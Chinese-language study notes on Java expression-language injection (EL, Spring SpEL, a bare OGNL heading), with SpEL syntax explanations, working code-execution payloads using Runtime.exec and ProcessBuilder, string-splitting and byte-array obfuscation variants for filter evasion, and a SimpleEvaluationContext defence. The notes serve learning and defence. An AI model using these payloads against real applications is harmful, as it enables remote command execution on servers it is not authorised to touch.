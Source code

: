 OGNL(struts2)、SpEL(spring)、MVEL、EL、Fel、JSTL+EL等
# **EL表达式**
原生EL（Expression Language）表达式 是为了使JSP写起来更加简单。
```
//执行命令
${"".getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("JavaScript").eval("new java.lang.ProcessBuilder['(java.lang.String[])'](['cmd','/c','calc']).start()")}
```


^
# **Spring的SpEL表达式注入**
<https://xie.infoq.cn/article/66d003327e05ab4528fca5a41>
```
把字符串当做代码执行。
数学表达式执行。
配置文件解析：SpEL可以解析配置文件中的动态值，引用其他属性或方法的值，实现配置的动态性。
SpEL通常用在Spring框架的某些特定场景中，比如在配置文件中通过`${...}`使用属性占位符，或者在注解中实现复杂的逻辑，例如`@Conditional`注解。
```

当集成的spring-boot-starter-web依赖后，就可以自动使用。
关键词：StandardEvaluationContext()；
```
String spel ="T(java.lang.Runtime).getRuntime().exec(\"calc\")"; 
//T()包裹后可以直接调用静态方法和静态属性。
ExpressionParser parser=new SpelExpressionParser();
Expression expression=parser.parseExpression(spel);
EvaluationContext context=new StandardEvaluationContext();
expression.getValue(context);

```

CVE复现：<https://cloud.tencent.com/developer/article/2144995>
防御：使用时做白名单，只有需要的字符串才能当作代码执行。




### SpEL表达式 #{} 和 {} 和 # 和 '' 的使用
1. #{} 表达式
   #{} 用于在 Spring 配置文件中表示需要解析的 SpEL 表达式。主要用于注解、XML 配置和属性文件中，通常在需要动态计算的场景下使用。
```java 
@Value("#{systemProperties['user.home']}")
private String userHome;
```
2. `#` 符号   
`#` 符号在 SpEL 表达式中用于引用变量或方法。通常在解析上下文中使用，以引用方法、属性或在表达式中定义的变量。
```java 
SpelExpressionParser parser = new SpelExpressionParser();
StandardEvaluationContext context = new StandardEvaluationContext();
context.setVariable("number", 42);

Integer number = parser.parseExpression("#number").getValue(context, Integer.class);
```
3. ` '' `字符串  
   用于在 SpEL 表达式中表示字符串文字。字符串文字在 SpEL 表达式中必须用单引号括起来，以区分其他类型的值（如数字、变量等）。
```java 
SpelExpressionParser parser = new SpelExpressionParser();
String result = parser.parseExpression("'Hello ' + 'World'").getValue(String.class);
```
4. `{}`   
    花括号 {} 通常用于在集合、数组或映射中表示集合字面量。以下是一些具体的用法和示例。
### Spel注入  
存在Spel注入的前提是存在SpEl相关的库，如下是相关的库
```java
org.springframework.expression.spel.standard
SpelExpressionParser
parseExpression
expression.getValue();
expression.setValue();
```
 SpEl解析SpEL提供了两套不同的接口，分别是"SimpleEvaluationContext"和"StandardEvaluationContext"。其中"SimpleEvaluationContext" 
 仅支持简单的表达式，抛弃了Java类型引用，构造函数，相较比较安全。而"StandardEvaluationContext" 支持复杂的表达式，如方法调用、属性访问等。
 如果在不指定EvaluationContext的情况下，SpEl默认使用"StandardEvaluationContext"。
 ```java
// 执行exec
T(java.lang.Runtime).getRuntime().exec("calc.exe");
#this.getClass().forName("java.lang.Runtime").getRuntime().exec("calc.exe");

 ```

### 构造payload
```
T(java.lang.Ru" + "ntime).getRuntime().exec('calc');
String spel = "T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\").getMethod(\"ex\"+\"ec\",T(String[]))" +".invoke(T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\")" +".getMethod(\"getRu\"+\"ntime\").invoke(T(String).getClass()" +".forName(\"java.l\"+\"ang.Ru\"+\"ntime\")),new String[]{\"cmd\",\"/C\",\"calc\"})\n";
new javax.script.ScriptEngineManager().getEngineByName("javascript").eval("java.lang.Runtime.getRuntime().exec('calc')")";
T(java.lang.Runtime).getRuntime().exec("calc")
T(java.lang.Runtime).getRuntime().exec(new String(new byte[]{0x63,0x61,0x6c,0x63}))
```

## Spel 防御
使用 SimpleEvaluationContext
```java
SpelExpressionParser parser = new SpelExpressionParser();
SimpleEvaluationContext context = SimpleEvaluationContext.forReadOnlyDataBinding().build();
expression.setValue(context, "payload");
```



^
# **OGNL(struts2)表达式注入**